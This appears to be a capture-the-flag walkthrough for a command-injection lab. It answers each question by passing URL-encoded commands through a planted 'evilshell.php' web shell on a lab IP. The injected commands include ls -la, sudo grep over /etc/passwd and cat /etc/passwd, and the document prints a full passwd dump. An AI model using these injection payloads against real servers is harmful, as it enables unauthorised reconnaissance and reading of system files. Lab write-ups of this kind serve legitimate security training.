 **Windows**

- whoami
- ver
- ipconfig
- tasklist
- netstat -an

To complete the questions below, navigate to http://MACHINE_IP/evilshell.php.

1. What strange text file is in the website root directory?

`http://10.10.175.234/evilshell.php?commandString=ls+-la`

```
total 28 drwxr-x--- 4 www-data www-data 4096 Jun 3 18:13 . drwxr-xr-x 3 root root 4096 May 18 15:21 .. drwxr-x--- 2 www-data www-data 4096 May 21 03:04 css -rw-r----- 1 www-data www-data 17 May 22 13:14 drpepper.txt -rw-r----- 1 www-data www-data 1723 May 26 01:52 evilshell.php -rw-r----- 1 www-data www-data 2200 May 21 03:04 index.php drwxr-x--- 2 www-data www-data 4096 May 21 03:04 js
```

`drpepper.txt`

2. How many non-root/non-service/non-daemon users are there?

`sudo grep '/home/' /etc/passwd | cut -d: -f1`

`http://10.10.175.234/evilshell.php?commandString=sudo+grep+%27%2Fhome%2F%27+%2Fetc%2Fpasswd+%7C+cut+-d%3A+-f1`

`sudo grep '/bin/bash' /etc/passwd | cut -d: -f1`

`http://10.10.175.234/evilshell.php?commandString=sudo+grep+%27%2Fbin%2Fbash%27+%2Fetc%2Fpasswd+%7C+cut+-d%3A+-f1`

`0`

3. What user is this app running as?

`http://10.10.175.234/evilshell.php?commandString=whoami`

`www-data`

4. What is the user's shell set as?

`http://10.10.175.234/evilshell.php?commandString=cat+%2Fetc%2Fpasswd`

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

